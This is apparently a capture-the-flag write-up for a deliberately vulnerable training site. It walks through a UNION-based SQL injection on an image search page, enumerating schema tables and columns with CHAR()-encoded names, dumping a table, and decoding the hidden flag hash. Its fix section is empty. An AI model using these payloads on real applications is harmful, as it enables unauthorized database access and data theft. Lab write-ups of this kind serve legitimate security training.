 # Breach: SQL injection avancee


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


It will be similar to the basic SQL injection,<br>
so refer to the [SQL injection basic](/SQL%20injection%20basic/Ressources/Readme.md) breach for more information.

The only things that make it "avancee" are :
1. There is no output when there is an error in the SQL query.
2. The 2 outputs are switched.


#### Step 1:

- Go to the search image page.


#### Step 2:

Let's explore the database !

- List all the tables in the database:
```sql
999 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```


#### Step 3:

The table `list_images` looks interesting, let's see what's inside...

- Translate `list_images` and `Member_images` to their ASCII values:
```sql
CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)
CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)
```

- List all the columns in the `list_images` table:
```sql
999 UNION SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_SCHEMA=CHAR(77, 101, 109, 98, 101, 114, 95, 105, 109, 97, 103, 101, 115)
AND TABLE_NAME=CHAR(108, 105, 115, 116, 95, 105, 109, 97, 103, 101, 115)
```

> It gives us the culumns:
> | COLUMN_NAME | COLUMN_TYPE  |
> | ----------: | :----------- |
> | id          | int(11)      |
> | url         | varchar(40)  |
> | title       | varchar(25)  |
> | comment     | varchar(255) |


#### Step 4:

Now we can get the flag from the `list_images` table.

- List everthing:
```sql
999 UNION SELECT id, url FROM list_images
UNION SELECT id, title FROM list_images
UNION SELECT id, comment FROM list_images
```

> It gives us:
> | id  | url                                      | title     | comment                                                                                                               |
> | :-: | :--------------------------------------- | :-------- | :-------------------------------------------------------------------------------------------------------------------- |
> | 1   | https://fr.wikipedia.org/wiki/Programme_ | Nsa       | An image about the NSA !                                                                                              |
> | 2   | https://fr.wikipedia.org/wiki/Fichier:42 | 42 !      | There is a number..                                                                                                   |
> | 3   | https://fr.wikipedia.org/wiki/Logo_de_Go | Google    | Google it !                                                                                                           |
> | 4   | https://en.wikipedia.org/wiki/Earth#/med | Earth     | Earth!                                                                                                                |
> | 5   | borntosec.ddns.net/images.png            | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |


#### Step 5:

- Decrypt the password (md5 lookup): `1928e8083cf461a51303633093573c46` -> `albatroz`

- Lower all the characters: `albatroz` -> `albatroz` (no change)

- Sha256 on it: `albatroz` -> `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`


<br>


## How to fix it:

- ...


---

[[Back to main page](/#darkly)]
